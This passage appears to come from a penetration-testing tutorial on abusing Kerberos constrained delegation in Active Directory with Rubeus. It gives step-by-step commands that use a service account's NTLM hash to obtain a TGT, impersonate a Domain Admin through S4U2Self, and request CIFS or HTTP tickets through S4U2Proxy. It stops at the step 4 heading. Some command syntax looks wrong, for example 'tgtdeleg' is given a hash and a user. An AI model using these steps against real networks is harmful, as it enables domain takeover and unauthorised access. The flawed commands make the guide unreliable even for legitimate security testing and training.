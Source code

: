 If you already have the NTLM hash of the service account, use Rubeus to generate a TGT:

```powershell
Rubeus.exe tgtdeleg /user:<ServiceAccount> /rc4:<NTLM Hash of ServiceAccount> /domain:<DomainName> /dc:<DomainController> /nowrap
```

**Explanation**:
- `/user`: The name of the service account that has constrained delegation enabled.
- `/rc4`: The **NTLM hash** of the service account. If you have the **RC4** hash of the account, use it here.
- `/domain`: The domain of the service account.
- `/dc`: The domain controller to contact for the TGT.
- `/nowrap`: This option removes any line breaks from the ticket output, useful when saving the TGT to a file.

This command requests a TGT for the service account by providing its **NTLM hash**. The output will be a **TGT**, which you will later use to impersonate users.

#### **Step 2: Using `S4U2Self` to Impersonate a User**

Once you have a **TGT** for the service account, the next step is to impersonate a higher-privileged user (e.g., a **Domain Admin**) using **S4U2Self**.

```powershell
Rubeus.exe s4u /user:<ServiceAccount> /impersonateuser:<DomainAdmin> /rc4:<NTLM Hash of ServiceAccount> /domain:<DomainName> /sid:<DomainSID>
```

- `/user`: The service account you control (the same account for which you obtained the TGT).
- `/impersonateuser`: The user you want to impersonate (e.g., **Domain Admin**).
- `/rc4`: The **NTLM hash** of the service account.
- `/sid`: The **SID** of the domain.

This command will generate a service ticket for the **Domain Admin** by using the service account's delegation rights (via **S4U2Self**).

#### **Step 3: Using `S4U2Proxy` to Request a Service Ticket for Another Service**

After generating a service ticket for the user (e.g., **Domain Admin**), you can use **S4U2Proxy** to request tickets to other services specified in the **`msDS-AllowedToDelegateTo`** property of the service account.

```powershell
Rubeus.exe s4u /user:<ServiceAccount> /impersonateuser:<DomainAdmin> /rc4:<NTLM Hash of ServiceAccount> /domain:<DomainName> /sid:<DomainSID> /targetservice:<Service> /targetserver:<TargetServer>
```

- `/targetservice`: The service you want to access (e.g., **cifs** for file shares, **HTTP** for web servers, etc.).
- `/targetserver`: The server hosting the service you want to access.

This command requests a service ticket for the **CIFS** or **HTTP** service on the target server using the **Domain Admin's** impersonated ticket.

#### **Step 4: Applying the Ticket and Accessing the Service**
